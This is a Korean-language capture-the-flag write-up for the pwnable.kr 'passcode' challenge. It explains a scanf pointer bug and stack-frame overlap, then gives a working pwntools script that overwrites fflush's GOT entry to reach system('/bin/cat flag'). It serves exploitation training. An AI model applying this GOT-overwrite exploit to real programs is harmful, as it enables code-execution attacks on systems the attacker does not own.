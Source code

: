 # [pwnable.kr] passcode

> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?
>
> ssh passcode@pwnable.kr -p2222 (pw:guest)
>
> [Attachment](./attachment)

## Bug

```c
/* passcode.c */

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```

`passcode1`과 `passcode2`에 `scanf()`로 입력을 받을 때 두 번째 인자로 변수의 주소를 전달해야 하는데 실제로는 변수의 값(쓰레기값)을 전달하여 의도하지 않은 주소에 값을 입력받게 된다.

## Exploit

```c
/* passcode.c */

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

`main()`에서 `welcome()`과 `login()`을 연속해서 호출하기 때문에 `welcome()`이 사용하던 스택 프레임을 `login()`에서 그대로 사용하게 된다.

```c
/* passcode.c */

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

`passcode1`의 주소를 확인해 보면 `name`의 마지막 4바이트와 겹친다. 따라서 `welcome()`에서 미리 `passcode1`의 값을 임의의 주소로 설정해 두고 `login()`에서 그 주소에 임의의 값을 입력할 수 있다.

`login()`에서 `passcode1`에 입력을 받은 직후에 `fflush()`를 호출하기 때문에, `fflush()`의 GOT 주소에 `system("/bin/cat flag")`의 주소를 넣으면 플래그를 획득할 수 있다.

```python
# ex.py

from pwn import *

p = ssh("passcode", "pwnable.kr", 2222, "guest").process("/home/passcode/passcode")

fflush_got = 0x804A004  # GOT of fflush()
flag_gadget = 0x80485E3  # system("/bin/cat flag")

p.sendlineafter(b"enter you name : ", b"A" * 0x60 + p32(fflush_got))
p.sendlineafter(b"enter passcode1 : ", str(flag_gadget).encode())

p.interactive()
```

![image](https://github.com/user-attachments/assets/1a23e377-cfee-426e-b95e-410154004e12)